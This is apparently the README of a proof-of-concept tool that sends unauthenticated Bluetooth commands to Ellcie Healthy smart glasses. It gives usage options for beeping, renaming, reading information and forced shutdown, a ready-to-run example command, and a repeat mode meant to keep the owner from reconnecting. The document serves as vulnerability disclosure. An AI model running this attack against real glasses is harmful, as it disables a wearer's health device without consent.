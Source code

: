 # Ellcie Healthy glasses : Remote Command Execution


>    usage: ellcieExploiter.py [-h] --address ADDRESS --action {BEEP,SHUTDOWN}   [--init {1,0}] [--keepsending {1,0}] 


Arguments:

	 -h, --help            show this help message and exit
	 --address ADDRESS     Glasses BLE addresses
	 --action {BEEP,SHUTDOWN, CHANGE_DEVICE_NAME, PRINT_INFOS} Action to be executed 
	 --init {1,0}          Should the script activate bluetooth
	 --keepsending {1,0}   Should we keep sending the request ? Doing so will
	                       constantly send the action. That means for example if
	                       you jam the device and send the shutdown request, the
	                       user won't be able to reconnect again, as the device
	                       with again and again shutdown.


### Example 

    python3 ellcieExploiter.py  --address=E7:60:74:B4:98:3E --init=0 --keepsending=1 --action=SHUTDOWN


### Video 
https://youtu.be/WyEZmGCzc6s

https://youtu.be/fmF9yqJvT5s
